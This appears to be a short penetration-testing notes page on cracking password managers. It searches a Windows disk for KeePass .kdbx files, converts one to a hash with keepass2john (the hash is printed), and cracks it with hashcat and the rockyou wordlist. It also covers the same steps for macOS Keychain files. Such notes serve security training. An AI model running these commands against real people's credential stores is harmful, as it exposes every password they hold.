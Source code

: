# Password Managers



## Search For KeepPass Files

```bash
PS C:\Users\jason> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
    
    
    Directory: C:\Users\jason\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/30/2022   8:19 AM           1982 Database.kdbx
```



### Converting .kdbx to hash with keepass2john

<pre class="language-bash"><code class="lang-bash"><strong>kal@kali keepass2john Database.kdbx > keepass.hash   
</strong>
kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
</code></pre>



### Running Hashcat w/ rules

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
```



## MacOS Keychain&#x20;

```bash
$ keychain2john MyKeychain.keychain-db >> keychain.hash
```

```bash
$ hashcat -m 23100 keychain.hash /usr/share/wordlists/rockyou.txt
```

